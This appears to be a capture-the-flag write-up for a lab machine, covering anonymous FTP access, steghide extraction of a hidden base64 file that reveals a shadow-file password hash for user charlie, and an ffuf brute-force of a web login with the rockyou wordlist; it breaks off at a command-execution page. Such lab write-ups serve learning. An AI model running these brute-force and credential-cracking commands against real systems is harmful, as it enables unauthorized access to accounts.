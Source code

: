 ```bash
drwxr-xr-x    2 65534    65534        4096 Oct 01  2020 .
drwxr-xr-x    2 65534    65534        4096 Oct 01  2020 ..
-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
226 Directory send OK.

ftp>
```
There was only one image which I downloaded to analyze it further. `Steghide` was able to extract data:
```bash
$ steghide --extract -sf gum_room.jpg
Enter passphrase:
wrote extracted data to "b64.txt".
```
Checking the file content and the file name a base64 decode gave me the cleartext:
```bash
$ cat b64.txt | base64 -d
[--- removed for readability ---]
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```
Since the structure of the file seems to be a shadow file, I tried to crack the hash with hashcat. But I canceled it after a few minutes and moved on.

## Webserver Enumeration
The next interesting port in the list is the web server. When we open the website, we see a login page.
To be sure, I did a gobuster directory enumeration, but found nothing there.

The shadow file gave us a username, so I tried to brute force the username with `ffuf`, and had success:
```bash
$ ffuf -w /usr/share/wordlists/rockyou.txt -X POST -d "uname=charlie&password=FUZZ&submit=Log+In" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.197.226/validate.php -fs 93

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.197.226/validate.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : uname=charlie&password=FUZZ&submit=Log+In
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 93
________________________________________________

[removed]                  [Status: 200, Size: 43, Words: 1, Lines: 1, Duration: 81ms]
```
The login was possible with the user name `charlie` and the brute forced password.
After logging in, we get a simple command execution page:
